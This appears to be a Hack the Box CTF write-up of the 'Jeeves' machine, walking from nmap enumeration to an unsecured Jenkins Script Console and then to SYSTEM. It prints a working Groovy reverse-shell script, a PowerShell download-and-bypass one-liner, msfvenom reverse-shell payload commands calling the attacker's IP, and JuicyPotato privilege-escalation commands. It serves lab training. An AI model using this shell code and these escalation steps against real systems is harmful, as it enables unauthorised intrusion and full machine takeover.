

# Jeeves
**Date:** February 18th 2024

**Author:** j.info

**Link:** [**Jeeves**](https://www.hackthebox.com/machines/Jeeves) on Hack the Box

**Hack the Box Difficulty Rating:** Medium

<br>


<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`nmap -sC -sV -p- -oN nmap --min-rate=4500 jeeves -Pn`

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s
| smb2-time: 
|   date: 2024-02-16T19:02:26
|_  start_date: 2024-02-16T18:53:41
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

<br>

### Gobuster Scans

`gobuster dir -u http://jeeves -t 50 -r -x aspx,txt,html -w ~/dir-med.txt`

```
/index.html           (Status: 200) [Size: 503]
/error.html           (Status: 200) [Size: 50]
```

`gobuster dir -u http://jeeves:50000 -t 50 -r -x aspx,txt,html -w ~/dir-med.txt`

```
/askjeeves            (Status: 200) [Size: 11521]
```

<br>

## Website Digging

Visiting the main page:


If you search for something on this page it will bring up an error message stating it's running Microsoft SQL Server 2005 on a Windows NT version 5.0 machine which definitely surprised me, but then I realized it was actually just an image file they display to mess with you a little bit.

Visiting port 50000 brings up a Jenkins instance that doesn't require a password:


I've encountered Jenkins before and successfully exploited it using a project that you build, but that did not work on this box.

Clicking on the Manage Jenkins link in the left menu brings up all sorts of options including one that says Jenkins CLI which sounds interesting. It tells you all of the commands you can use and also lets you download the .jar file which you can use on your Kali box to run commands against the Jenkins instance, which does work if you include a space up front. Not sure why that is, but it didn't work for me without doing that.


Looking through the list of available commands it doesn't seem like there is much interesting except maybe the Groovy Shell so I connect over to that and look at the help options. Unfortunately, this seems buggy and while you can connect after a few seconds it will just start scrolling and scrolling with the prompt as if somebody is holding your enter key down. I wasn't able to find a way around this.


Thankfully if you go back to the Manage Jenkins link and look at the link directly under Jenkins CLI you find Script Console, which takes you to a GUI version of this Groovy Shell.


I find [**this link**](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6) which explains how to abuse Groovy Script to get a shell back and links you to the reverse shell code.

```
String host="localhost";

int port=8044;

String cmd="cmd.exe";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

<br>

## Initial Foothold

I modify the script code so that localhost points to my Kali IP and change the port to 443 then setup a listener and click run, which gives me a shell back!


There are some files in the Jekins directory such as secret.key that is an encryption key, and a secrets directory that has the default admins password in it, which looks like an MD5 hash. I tried to crack it but didn't have any luck, and trying to connect over to SMB with it didn't work either.

Heading over to our user's desktop gives us the user.txt flag.


Checking our privileges shows that we have SeImpersonatePrivilege so I upload PrintSpoofer to see if that will work, and it does not.

`whoami /priv`


Transfering files was a little annoying on this box since you didn't have stanard tools like certutil. Here's what ended up working for me. Set up your standard simple http server on Kali and then use this on the box:

```powershell
powershell -ep bypass -c "(new-object net.webclient).downloadfile('http://YOUR_IP/PrintSpoofer64.exe', 'C:\users\kohsuke\desktop\PrintSpoofer64.exe')"
```

<br>

## System

I do have some success with JuicyPotato though! Uploading it and trying to get a new shell with cmd.exe doesn't work, even though it mentions NT AUTHORITY.


I create a .exe reverse shell file with msfvenom and upload it, then use JuicyPotato to call it, but it gives an error message saying it failed to create a process.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.76 LPORT=4444 -f exe -o shell.exe`

`JuicyPotato.exe -l 1234 -p shell.exe -t *`


It also turns out that the file was deleted, so defender is probably running on this box.

Trying another approach, I again use msfvenom but create a .bat file instead this time. Then upload and use JuicyPotato to call it.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.76 LPORT=4444 > shell.bat`

`JuicyPotato.exe -l 1234 -p shell.bat -t *`


Some of the other potato attacks work as well. I verified SweetPotato works with the .bat file method.

Heading over to the administrator's desktop doesn't have the standard root.txt and instead has a file called hm.txt, that's odd.



Too bad I can't ask Jeeves where the flag is.

But, look deeper is a pretty big clue in this case. Notice it didn't say look elsewhere.

It turns out that the flag is in this file just hidden in an alternate data stream. You can do a quick google search for that and there are a lot of articles explaining what it is and how to find and view them. I run dir with the /r command to detect it and then use the more command to view it here.

`dir /r`

`more hm.txt:root.txt`


NOTE: There is another way to get system on this box. If you look in the documents folder of kohsuke you'll see a KeePass database file which you can download and then crack. This allows you to access the password vault, which will ultimately get you a system shell on the box.


<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding an unsecured **Jenkins** instance
- Using the Jenkins Script Console with **Groovy Script** to get a reverse shell
- Checking privileges and seeing we have **SeImpersonatePrivilege**
- Using either **JuicyPotato** or **SweetPotato** to get a system shell
- Finding and viewing an **alternate data stream** in a text file

<br>

Many thanks to:
- [**mrb3n**](https://app.hackthebox.com/profile/2984) for creating this CTF
- **Hack the Box** for hosting this CTF

<br>

You can visit them at: [**https://www.hackthebox.com**](https://www.hackthebox.com)